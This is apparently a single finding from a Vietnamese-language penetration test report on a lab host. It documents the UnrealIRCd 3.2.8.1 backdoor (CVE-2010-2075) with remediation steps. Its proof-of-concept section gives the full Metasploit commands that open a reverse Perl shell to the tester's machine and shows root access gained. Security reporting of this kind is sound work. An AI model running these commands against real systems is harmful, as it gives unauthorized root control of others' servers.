

# F05 — UnrealIRCd Backdoor RCE

**Mức độ:** Critical  
**Target:** `192.168.77.20:6667`  
**CVE:** CVE-2010-2075  
**CWE:** CWE-506 — Embedded Malicious Code  

## 1. Mô tả

Dịch vụ UnrealIRCd tồn tại backdoor cho phép thực thi lệnh hệ thống từ xa mà không cần xác thực.

## 2. Kiểm chứng (PoC)

**Module:** `exploit/unix/irc/unreal_ircd_3281_backdoor`

**Payload:** `cmd/unix/reverse_perl`

```text
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.77.20
set RPORT 6667
set PAYLOAD cmd/unix/reverse_perl
set LHOST 192.168.77.10
set LPORT 4444
run
```

**Kiểm tra quyền:**

```bash
id
whoami
hostname
```

**Kết quả:**

```text
Command shell session 1 opened
uid=0(root) gid=0(root)
```

Xác nhận thực thi lệnh từ xa với quyền `root`.

**Screenshot:**



**Evidence:** [Metasploit Output](../evidence/F05-unrealircd-metasploit.txt)

## 3. Tác động

Cho phép thực thi lệnh trái phép với quyền `root`, có thể dẫn đến kiểm soát toàn bộ hệ thống.

## 4. Khắc phục

- Gỡ bỏ bản UnrealIRCd chứa backdoor.
- Cài đặt phần mềm từ nguồn đáng tin cậy và xác minh tính toàn vẹn.
- Giới hạn truy cập dịch vụ IRC.